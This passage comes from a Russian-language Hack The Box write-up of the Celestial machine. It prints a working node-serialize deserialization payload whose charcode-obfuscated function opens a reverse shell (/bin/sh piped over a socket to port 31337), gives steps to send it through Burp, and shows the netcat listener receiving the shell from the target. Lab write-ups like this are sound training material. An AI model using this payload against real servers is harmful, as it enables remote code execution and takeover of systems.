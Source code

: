 ```
{"username": "3v3l_h4ck3r", "country": "Shangri-La", "city": "Civitas Solis", "num": "13373", "run": "_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,32,32,32,32,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,32,32,32,32,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,32,32,32,32,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,32,32,32,32,80,79,82,84,61,34,51,49,51,51,55,34,59,10,32,32,32,32,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,32,32,32,32,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,32,32,32,32,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,10,32,32,32,32,99,40,72,79,83,84,44,80,79,82,84,41,59,10,32,32,32,32))}()"}
```

Переводим в base64 и отправляем в Burp (не забыв при этом поднять слушателя на фоне на 31337 порт):

[![port3000-burp-2.png]({{ "/assets/images/htb/celestial/port3000-burp-2.png" | relative_url }})]({{ "/assets/images/htb/celestial/port3000-burp-2.png" | relative_url }})
{: .center-image}

# Внутри машины
А тем временем:
```text
root@kali:~# nc -nlvvp 31337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.10.10.85.
Ncat: Connection from 10.10.10.85:32968.
Connected!

ls
Desktop
Documents
Downloads
examples.desktop
Music
node_modules
output.txt
Pictures
Public
server.js
Templates
Videos
```
